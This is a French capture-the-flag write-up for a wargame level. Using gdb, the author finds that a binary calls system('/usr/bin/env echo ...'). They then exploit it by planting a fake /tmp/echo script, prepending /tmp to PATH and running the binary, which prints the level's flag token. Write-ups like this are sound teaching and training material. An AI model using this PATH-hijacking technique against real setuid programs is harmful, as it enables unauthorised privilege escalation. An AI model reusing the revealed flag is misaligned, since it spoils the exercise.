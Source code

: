 # Level 03

Dans le home on peut apercevoir un exécutable, que lorsqu'on le lance, nous ecrit dans le terminal: `Exploit me`.

La première chose qu'on pense c'est de voir comment est construit cet exécutable.
Et pour ce faire, on lance gdb avec l'exécutable comme argument.

Ensuite désassembler l'entry point.

```
$ gdb level03
(gdb) disassemble main
Dump of assembler code for function main:
	...
   0x080484f7 <+83>:	movl   $0x80485e0,(%esp)
   0x080484fe <+90>:	call   0x80483b0 <system@plt>
	...
End of assembler dump.
```

Et la permière chose que l'on voit dans ce main est le call de la fonction system avec comme argument la string à cette position `0x80485e0`

Donc on va regarder cette position:
```
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
(gdb)
```
On voit donc que l'argument de system est `"/usr/bin/env echo Exploit me"`. Ce qui nous fait penser qu'on pourrait mettre un faux exécutable echo.

Pour ce faire on va créer le script/exécutable, qu'on va mettre dans /tmp/echo, lui donner les bonnes permissions et un path directement sur /tmp

```
$ echo "sh -c getflag" > /tmp/echo
$ chmod 755 /tmp/echo
$ export PATH=/tmp:$PATH
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
